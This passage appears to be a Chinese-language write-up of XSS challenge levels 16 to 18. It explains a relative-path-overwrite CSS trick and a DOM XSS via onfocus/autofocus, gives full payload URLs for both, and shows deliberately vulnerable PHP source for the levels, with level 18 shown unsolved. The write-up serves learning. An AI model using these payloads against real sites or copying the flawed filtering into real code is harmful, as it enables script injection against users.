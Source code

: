 这是一个RPO的漏洞，之前基本没什么了解，可以看看文章

[http://www.mbsd.jp/Whitepaper/rpo.pdf](http://www.mbsd.jp/Whitepaper/rpo.pdf)

首先是一个相对路径的问题。当我们请求链接是`xianzhi.aliyun.com/xss16.php/%7B%7D*%7Bbackground-color:%20red%7D*%7B%7D/`，服务端会忽略后面的部分，但是浏览器不会，他会把加载相对路径的css`xianzhi.aliyun.com/xss16.php/%7B%7D*%7Bbackground-color:%20red%7D*%7B%7D//styles.css`

那么现在我们已经可以任意加载css了，最大的问题的就是怎么通过css来加载js，这里使用了sct文件，就是那个xss.png文件。

payload
```
http://xianzhi.aliyun.com/xss16.php/{}*{behavior:url(http://xianzhi.aliyun.com/xss.png)}*{}/
```

ie可用

# 17 passive element #

```
<?php
header("Content-Type:text/html;charset=utf-8");
header("X-Content-Type-Options: nosniff");
header("X-FRAME-OPTIONS: DENY");
header("X-XSS-Protection: 0");
$content=$_GET["content"];
echo "<div data-content='".htmlspecialchars($content)."'>";
?>
```

这是一个div下的dom xss，唯一的问题就是，怎么能在这样的标签下无交互的执行js呢。

```
http://ec2-13-58-146-2.us-east-2.compute.amazonaws.com/xss17.php?content=data%27id=xss%20onfocus=alert(document.domain)%20autofoucs%20contenteditable%20tabindex=0%20x=1#xss
```

# 18 Graduate #
```
<?php
header("Content-Type:text/html;charset=utf-8");
header("X-Content-Type-Options: nosniff");
header("X-FRAME-OPTIONS: DENY");
header("X-XSS-Protection: 1");
?>
<html>
<head>
<meta charset=utf-8>
</head>
<body>
<textarea>
<?php
//Fix#001
$input=str_replace("<script>","",$_GET["input"]);
//Fix#002
$input=str_replace("/","\/",$input);
echo $input;
?>

</textarea>
</body>
</html>
```
